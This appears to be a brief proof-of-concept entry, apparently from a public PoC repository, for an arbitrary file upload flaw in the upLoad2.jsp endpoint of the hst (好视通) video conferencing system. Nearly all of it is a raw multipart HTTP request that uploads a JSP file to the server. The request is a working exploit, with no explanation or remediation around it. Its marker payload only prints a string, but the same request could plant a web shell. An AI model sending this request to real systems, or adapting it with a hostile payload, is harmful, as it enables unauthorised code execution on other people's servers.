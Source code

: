 # hst_upLoad2_fileupload

```
POST /fm/systemConfig/upLoad2.jsp HTTP/1.1
Content-Type: multipart/form-data; boundary=1515df1sdfdsfddfs
Accept-Encoding: gzip
 
--1515df1sdfdsfddfs
Content-Disposition: form-data; name="file"; filename="dudesuite.jsp"
Content-Type: application/octet-stream
 
<% out.print("dudesuite"); %>
--1515df1sdfdsfddfs--
```

from: https://github.com/wy876/POC/blob/main/%E5%A5%BD%E8%A7%86%E9%80%9A%E8%A7%86%E9%A2%91%E4%BC%9A%E8%AE%AE%E7%B3%BB%E7%BB%9F/%E5%A5%BD%E8%A7%86%E9%80%9A%E4%BA%91%E4%BC%9A%E8%AE%AEupLoad2.jsp%E6%8E%A5%E5%8F%A3%E5%A4%84%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
